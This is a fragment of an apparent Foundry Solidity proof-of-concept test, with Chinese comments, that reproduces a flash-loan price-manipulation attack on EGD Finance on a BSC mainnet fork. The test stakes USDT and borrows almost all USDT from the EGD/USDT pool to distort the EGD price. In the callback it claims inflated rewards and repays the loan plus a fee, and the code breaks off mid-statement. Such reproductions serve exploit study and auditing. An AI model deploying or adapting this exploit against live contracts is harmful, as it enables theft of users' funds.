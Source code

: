 ```solidity
);

contract HackTest1 is Test {
    IEGD_Finance egd_finance;

    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/bsc", blockheight);
        egd_finance = IEGD_Finance(EGD_Finance);
        deal(usdt, address(this), 50000 ether);
    }

    function testHack() public {
        stake();

        //模拟2天后
        vm.warp(block.timestamp + (2 * 24 * 60 * 60));

        console2.log(
            "all edg in EGD_Finance:",
            IERC20(egd).balanceOf(EGD_Finance)
        );

        console2.log("edg price before:", egd_finance.getEGDPrice());

        console2.log(
            "egd i should reward by noraml case:",
            egd_finance.calculateAll(address(this))
        );

        //贷款（价格操纵）
        uint256 borrowUSDT = (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
            99997600) / 100000000;
        EGD_USDT_LPPool.swap(0, borrowUSDT, address(this), "abcd");
    }

    function stake() public {
        egd_finance.bond(address(0x85cbfaBD709c744C84A36BA47145396d724EE751));
        IERC20(usdt).approve(address(egd_finance), 100 ether);
        egd_finance.stake(100 ether);
    }

    //贷款的回调函数
    function pancakeCall(
        address,
        uint256,
        uint256 count1,
        bytes calldata
    ) public {
        console2.log(
            "edg price after (i borrowed huge USDT out):",
            egd_finance.getEGDPrice()
        );

        //在价格不合理的时候领取质押奖励
        egd_finance.claimAllReward();

        //归还贷款本金 + 5%手续费
        bool success = IERC20(usdt).transfer(
            address(EGD_USDT_LPPool),
            ((count1 * 10_500_000_000) / 10_000_000_000)
        );

        console2.log(
```